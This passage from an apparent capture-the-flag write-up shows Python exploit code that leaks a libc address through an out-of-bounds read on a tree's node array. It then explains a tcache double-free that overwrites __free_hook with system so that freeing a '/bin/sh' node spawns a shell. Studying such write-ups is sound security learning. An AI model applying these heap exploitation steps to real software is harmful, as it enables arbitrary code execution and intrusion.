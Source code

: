 This is the code we wrote to accomplish it:
```python
    # ==========
    # Leak libc addr
    # ==========
    log.info("Leaking a libc addr:")

    # Create nodes just before a call to `realloc` for the `tree->nodes`
    # Put the addr where our libc leak will be in the node so we can then index into it
    leak_libc_addr = heap + 720
    for _ in range(305 - 1):
        create_node(s, arg2=leak_libc_addr)

    # Delete most nodes inserted to get space for the next `realloc`
    # We need this to ensure the realloc comes above the alocated nodes so we can index into it
    for k in range(j - 1, 10, -1):
        del_node(s, k)

    # Trigger the `realloc`
    create_node(s, arg2=leak_libc_addr)

    leak_libc_idx = (0xb48 / 8)
    leak_libc = int(select_node(s, leak_libc_idx))
```


### Exploiting the Tcache
Ok, we have all these leaks, but how do we get code execution? Our goal was to overwrite the `__free_hook` function pointer located in the libc, which, if not null, is called whenever free is called.

If we can somehow make it point to `system`, we can then do the following:
  1. Add a node with value `"/bin/sh\x00"` (will be the root of the tree)
  2. Add a node with value `"/bin/sh\x00"` (will fail and be freed)

This last step will make `sp_add` fail, because no two nodes can have the same value. This causes a call to `free(node)` and since we overwrote the `__free_hook` pointer with `system`, it will also call `system("/bin/sh\x00")`.

So:
  1. We can create nodes of size 72 and control their `node->node_val` and `node->node_val_2`
  2. We can delete (free) nodes which will end up on the [tcache](http://tukan.farm/2017/07/08/tcache/). The pointer to the `next` free chunk in the **tcache_entry** will be exactly in the same offset as our `node->node_val` field.

By exploiting the OOBR again we can cause a double free of a node by:
 - creating a node
 - deleting it
 - selecting it (with our OOBR), making it part of the tree again
 - deleting it the second time

We use this to corrupt `tcache_entry->next` and make malloc return an arbitrary pointer (in our case to `__free_hook`) as shown in the image below and commented on the exploit code.

***
